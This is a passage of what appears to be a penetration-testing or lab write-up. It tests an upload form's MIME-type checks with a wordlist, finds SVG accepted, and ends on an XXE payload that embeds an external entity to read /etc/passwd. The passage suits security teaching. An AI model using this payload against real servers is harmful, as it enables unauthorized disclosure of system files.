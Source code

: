 **Why I did this**: If the server validates MIME types, brute-forcing different values could reveal which types are accepted.

**Action**:
- Sent the request to **Burp Repeater**.  
- Created a dictionary of MIME types:  

```bash
wget https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Discovery/Web-Content/web-all-content-types.txt

cat web-all-content-types.txt | grep 'image/' > image-content-types.txt
```

**Result**:
Most values were rejected, but `image/svg+xml` was accepted.

![](screenshots/5.png)

This was interesting because SVG is XML-based and might allow **XXE injection**.


### Exploiting XXE in SVG Upload

#### Test Payload

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```

